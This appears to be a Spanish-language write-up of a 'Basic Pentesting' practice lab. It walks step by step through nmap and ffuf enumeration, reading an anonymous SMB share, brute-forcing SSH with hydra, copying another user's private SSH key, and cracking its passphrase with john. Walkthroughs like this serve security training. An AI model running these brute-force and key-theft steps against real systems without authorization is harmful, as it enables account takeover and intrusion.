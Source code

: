 # Basic Pentesting — Writeup

## TL;DR

Se identificaron servicios HTTP, SSH y Samba. Se encontró un share anónimo con `staff.txt` que sugiere el usuario `jan`. Se obtuvo acceso SSH a `jan` por fuerza bruta (wordlist `rockyou`), desde `jan` se recuperó la clave privada de `kay` y se crackeó su passphrase con `john`, permitiendo acceso final como `kay`.

---

## Enumeración (nmap)

**Comando**

```bash
nmap -sV --open $IP
```

**Comentario:** `-sV` detecta versiones de servicios. 

**Resultado**
```bash
# Nmap 7.95 scan initiated Fri Sep 26 19:54:46 2025 as: /usr/lib/nmap/nmap --privileged -sV --open $IP
Nmap scan report for $IP
Host is up (0.35s latency).
Not shown: 996 closed tcp ports (reset)
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http        Apache httpd 2.4.41 ((Ubuntu))
139/tcp open  netbios-ssn Samba smbd 4
445/tcp open  netbios-ssn Samba smbd 4
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Sep 26 19:55:04 2025 -- 1 IP address (1 host up) scanned in 18.58 seconds
```
**Resumen**

* 22/tcp open  ssh (OpenSSH 8.2p1)
* 80/tcp open  http (Apache/2.4.41)
* 139/445/tcp open Samba (smbd)

---

## Enumeración de directorios web (ffuf)

**Comando**

```bash
ffuf -u http://$IP/FUZZ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -t 300 -s -c
```

**Comentario:** `-t 300` define la cantidad de hilos; `-s` silencia headers extra; `-c` activa color en resultado.

**Resultado**
```bash
# Priority-ordered case-sensitive list, where entries were found
#
# Suite 300, San Francisco, California, 94105, USA.
# Copyright 2007 James Fisher
# or send a letter to Creative Commons, 171 Second Street,
# license, visit http://creativecommons.org/licenses/by-sa/3.0/
#

# directory-list-2.3-small.txt
#
# Attribution-Share Alike 3.0 License. To view a copy of this
#
# This work is licensed under the Creative Commons
# on at least 3 different hosts
development
```
**Resultado relevante**

* `/development`

---

## Smb — share anónimo

**Enumeración**

```bash
smbclient -L //$IP
```

**Resultado**
```bash
	Sharename       Type      Comment
	---------       ----      -------
	Anonymous       Disk      
	IPC$            IPC       IPC Service (Samba Server 4.15.13-Ubuntu)
Reconnecting with SMB1 for workgroup listing.
Protocol negotiation to server $IP (for a protocol between LANMAN1 and NT1) failed: NT_STATUS_INVALID_NETWORK_RESPONSE
Unable to connect with SMB1 -- no workgroup available
```
**Resultado relevante**
* Share accesible: `Anonymous (Disk)`

**Conexión y archivo**

```bash
smbclient //$IP/Anonymous
smb: \> ls
smb: \> get staff.txt
```
<details>
  <summary><i>staff.txt</i></summary>
  
```bash
  Announcement to staff:

PLEASE do not upload non-work-related items to this share. I know it's all in fun, but
this is how mistakes happen. (This means you too, Jan!)

-Kay
```

</details>

**Comentario:** Indicio de usuario `jan`. Revisar si el share expone archivos sensibles o rutas del filesystem.

---

## Fuerza bruta SSH (usuario: jan)

**Comando**

```bash
hydra -l jan -P /usr/share/wordlists/rockyou.txt -t 4 ssh://$IP
```

**Comentario:** `-l` especifica login; `-P` wordlist; `-t 4` tareas paralelas. Usar siempre con autorización.

**Resultado**
```bash
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-09-27 15:49:48
[DATA] max 4 tasks per 1 server, overall 4 tasks, 14344399 login tries (l:1/p:14344399), ~3586100 tries per task
[DATA] attacking ssh://$IP/
[STATUS] 46.00 tries/min, 46 tries in 00:01h, 14344353 to do in 5197:14h, 4 active
[STATUS] 52.33 tries/min, 157 tries in 00:03h, 14344242 to do in 4568:14h, 4 active
[STATUS] 52.29 tries/min, 366 tries in 00:07h, 14344033 to do in 4572:20h, 4 active
[22][ssh] host: $IP   login: jan   password: REDACTED
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-09-27 16:04:48
```

---

## Acceso inicial y obtención de clave

**Operaciones realizadas**

```bash
ssh jan@$IP
# desde la sesión de jan:
scp jan@$IP:/home/kay/.ssh/id_rsa ./
```

**Comentario:** La clave privada `id_rsa` estaba accesible desde la cuenta `jan`.

---

## Cracking de passphrase y acceso final

**Conversión y cracking**

```bash
ssh2john id_rsa > rsa_john.txt
john rsa_john.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

**Resultado**
```bash
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
PASSWORD_REDACTED          (id_rsa)     
1g 0:00:00:00 DONE (2025-09-27 15:42) 10.00g/s 827360p/s 827360c/s 827360C/s behlat..bball40
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```
**Uso**

```bash
ssh -i id_rsa kay@$IP
# introducir passphrase para la clave
cat pass.bak
```
